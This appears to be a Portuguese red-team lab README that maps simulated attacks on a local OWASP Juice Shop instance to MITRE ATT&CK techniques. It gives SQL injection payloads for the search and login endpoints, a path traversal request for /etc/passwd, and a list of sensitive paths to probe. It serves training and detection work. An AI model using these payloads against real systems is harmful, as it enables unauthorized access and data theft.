

# Simulação de Ameaças (Red Team) e Matriz MITRE ATT&CK

## 1. Fluxo de Execução dos Ataques



---

## 2. Matriz de Correlação MITRE ATT&CK

| Tática | Técnica | ID MITRE | Endpoint Alvo | Vetor / Payload |
| :--- | :--- | :--- | :--- | :--- |
| **Initial Access** | Exploit Public-Facing Application | `T1190` | `/rest/products/search` | `' OR 1=1--` |
| **Initial Access / Privilege Escalation** | Exploit Public-Facing Application | `T1190` | `/rest/user/login` | `{"email": "admin@juice-sh.op' OR 1=1--", "password": "foo"}` |
| **Discovery** | File and Directory Discovery | `T1083` | `/public/images/ftp/...` | `../../../../etc/passwd` |
| **Reconnaissance** | Active Scanning: Wordlist Scanning | `T1595.003` | Rotas administrativas/arquivos sensíveis | `/.env`, `/admin`, `/package.json.bak` |

---

## 3. Especificação Técnica dos Vetores de Ataque

### A. SQL Injection (SQLi) - `T1190`
* **Mecanismo**: Injeção de predicados booleanos verdadeiros para subverter a query SQL no backend SQLite.
* **Requisição Exemplo**:
  ```http
  GET /rest/products/search?q=%27%20OR%201=1-- HTTP/1.1
  Host: localhost:3000
  ```
* **Comportamento Esperado**: Status HTTP `200 OK` retornando a listagem total de produtos sem filtragem.

### B. Path Traversal / Arbitrary File Read - `T1083`
* **Mecanismo**: Evasão do diretório público utilizando sequências `../` para alcançar recursos restritos do sistema de arquivos conteinerizado.
* **Requisição Exemplo**:
  ```http
  GET /public/images/ftp/../../../../etc/passwd HTTP/1.1
  Host: localhost:3000
  ```
* **Comportamento Esperado**: Dependendo das regras de sanitização do alvo, retorno de status `200 OK` com conteúdo do arquivo ou `403/500` registrado em log de auditoria.

### C. Enumeração Web e Força Bruta de Diretórios - `T1595`
* **Mecanismo**: Varredura sequencial de caminhos confidenciais baseada em wordlist para identificar arquivos residuais ou painéis expostos.
* **Alvos Testados**: `/admin`, `/.env`, `/backup`, `/.git`, `/metrics`.
* **Comportamento Esperado**: Rajada de respostas com códigos de status HTTP `404 Not Found` e `403 Forbidden` em uma janela curta de tempo.

---

## 4. Execução da Simulação via CLI

```bash
python3 attack_simulation.py
```
